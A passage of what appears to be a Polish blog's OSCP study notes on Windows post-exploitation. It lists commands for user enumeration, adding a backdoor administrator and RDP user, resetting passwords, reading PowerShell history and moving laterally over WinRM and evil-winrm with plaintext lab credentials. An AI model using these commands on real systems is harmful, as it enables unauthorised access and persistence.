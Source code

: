 <p><strong>###Users###</strong><br>#net user<br>#net user offsec np. net user Administrator lub „Device Owners”<br>#net accounts (polityka haseł)<br>#PS: Get-LocalUser | ft Name,Enabled,LastLogon<br>#PS: Get-ChildItem C:\Users -Force | select Name<br><strong>###Grupy lokalne###</strong><br>#PS: Get-LocalGroup<br>#Ps: Get-LocalGroupMember $nazwa-grupy<br>#PS: Get-LocalGroupMember Administrators | ft Name, PrincipalSource (sprawdzi i userow i grupy nalezace do niej)<br>#net localgroup ; <strong>net localgroup administrators</strong> (po polsku mam Administratorzy, pokaże administratorów na maszynie)<br>#”<strong><em>Remote Desktop Users</em></strong>” mają dostęp <strong>RDP</strong> a „<strong><em>Remote Management Users</em></strong>” przez <strong>WinRM</strong> ; ważna też „Backup Operators’<br>#&gt; jeżeli user nie jest w grupach RDP,  WinRM to używamy <strong>Runus</strong> (runus działa tylko z GUI, nie z rev-shell)<br>#&gt; <mark style="background-color:#baffaa" class="has-inline-color has-black-color">runas /user:offsec cmd</mark> (poprosi o podanie hasła)<br><strong>###Dodanie usera###</strong><br>#cmd.exe /c net user siren Password123 /add #&gt;  net localgroup administrators siren /add #&gt; cmd.exe /c net localgroup „Remote Desktop Users” siren /add<br>#dodanie istniejącego usera (np. siebie) do jakieś grupy: Add-ADGroupMember „IT Support” -Members „jankowalski”<br>#PV: Add-DomainGroupMember -Identity 'Domain Admins’ -Member 'student1′ -Domain 'corp’ (chociaż mi nie zadziałało w PowerView)<br>#kod C który utworzy nam usera i doda do grupy admin (kompilujemy do na Windows do exe lub na linux z i686-w64-mingw32-gcc) i podmieniamy w miejsce innego exe (<a href="https://3haker.pl/windows-privilege-escalation/">oscp</a>): <a href="https://3haker.pl/kod-c-ktory-utworzy-nam-usera/">TUTAJ</a> kod. <br><strong>###Podmiana hasła usera###</strong><br>#net user offsec Password123!<br><strong><mark style="background-color:#ffb9f9" class="has-inline-color">##Historia PS by oscp23###</mark></strong><br>#PS: Get-History (pokaze cos jezeli nie uzyto w PS: Clear-History)<br>#PS: (Get-PSReadlineOption).HistorySavePath (pokaze chyba sciezke do pliku z historią)<br>#możesz też użyć mając RDP: Event Viewer &gt; Application … &gt;windows PowerShell<br><strong>###Wykorzystanie poświadczeń do stworzenie sesji zdalnej przez WinRM chyba z innym komputerem oscp23:###</strong><br>#&gt; $password = ConvertTo-SecureString „<em>qwertqwertqwert123!!</em>” -AsPlainText -Force<br>#&gt; $cred = New-Object System.Management.Automation.PSCredential(„<em>daveadmin”</em>, $password)<br>#&gt; Enter-PSSession -ComputerName <em>CLIENTWK220</em> -Credential $cred (i masz sesje na innej maszynie)<br>#a jak mamy możliwość WinRM to lepiej użyć narzędzia: evil-winrm -i 192.168.50.220 -u daveadmin -p „qwertqwertqwert123\!\!” (ps. po zalogowaniu skorzystaj z menu #&gt; np. services)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Elevate_UAC" ez-toc-data-id="#Elevate_UAC"></span>Elevate, UAC:<span class="ez-toc-section-end"></span></h4>


